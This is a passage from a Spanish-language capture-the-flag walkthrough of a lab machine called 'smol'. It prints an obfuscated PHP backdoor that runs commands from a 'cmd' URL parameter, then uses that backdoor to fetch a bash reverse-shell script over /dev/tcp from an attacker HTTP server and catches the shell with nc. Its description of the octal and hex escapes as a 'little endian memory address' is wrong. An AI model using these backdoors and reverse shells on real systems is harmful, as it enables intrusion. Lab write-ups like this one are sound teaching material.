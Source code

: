 Veremos que funciona y en esta parte estamos viendo algo interesante:

```
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

Que decodificado quedaria asi:

```
 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
```

## Escalate user www-data

Veremos que esta en un codigo de `direccion de memoeria` en `little endian` (`octal` y `hexadecimal`), que quedaria asi:

* `\143` (octal) = **`c`**
* `\155` (octal) = **`m`**
* `\x64` (hex) = **`d`**

Palabra: `cmd`

Por lo que vemos podremos ejecutar comando mediante ese parametro, por lo que nos generaremos una `reverse shell` de la siguiente forma:

```shell
nano shell.sh

#Dentro del nano
#!/bin/bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Lo guardamos y haremos lo siguiente:

Abriremos un servidor de `python3`:

```shell
python3 -m http.server 8000
```

Ahora nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y seguidamente ejecutaremos lo siguiente:

```
URL = http://www.smol.hmv/wp-admin/?cmd=wget http://<IP>:8000/shell.sh
URL = http://www.smol.hmv/wp-admin/?cmd=wget http://<IP>:8000/bash shell.sh
```

Si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.1.146] from (UNKNOWN) [192.168.1.169] 38262
bash: cannot set terminal process group (818): Inappropriate ioctl for device
bash: no job control in this shell
www-data@smol:/var/www/wordpress/wp-admin$ whoami
whoami
www-data
```
